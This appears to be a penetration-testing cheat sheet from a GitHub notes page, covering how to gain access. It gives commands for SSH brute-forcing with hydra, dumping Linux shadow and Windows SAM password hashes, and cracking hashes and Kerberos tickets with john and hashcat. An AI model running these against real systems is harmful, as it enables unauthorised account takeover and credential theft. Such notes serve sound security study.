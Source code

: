 
## Gainning Access

Use Exploit-DB, searchsploit, .. to find known CVEs as they're most likely to be encoutered, or keep on going manually :D
```
searchsploit joomla
```

### WEB

* **XSS**

* **LFI/RFI**

* **RCE**

* **File upload**

* **CSRF**

* **SQLi**

* **LDAP**

### SSH

* **Bruteforce login using wordlists**
```
hydra -L ./users.txt -P ./passwords.txt 192.168.1.10 -t 10 ssh
```

### Crack password hashs

**Kerberos tickets**
```
hashcat64 -a 0 -m 13100 ./spn.kirbi /usr/share/wordlists/rockyou.txt
```

**Linux password hashs**

getting the hashes

```
unshadow /etc/passwd /etc/shadow > passwords.txt
```
cracking
```
john --wordlist=./rockyou.txt ./passwords.txt
```
```
hashcat -m 500 -a 0 -o cracked.txt ./hashes.txt ./rockyou.txt
```

**Windows password hashs**

getting the hashes

```
cd C:/WINDOWS/system32/config
bkhive system ./hive.txt
samdump2 SAM ./hive.txt > hashes.txt
```
cracking
```
john /root/hash.txt -format=nt2
```
```
hashcat -m 1000 -a 0 -o cracked.txt ./hashes.txt ./rockyou.txt
```
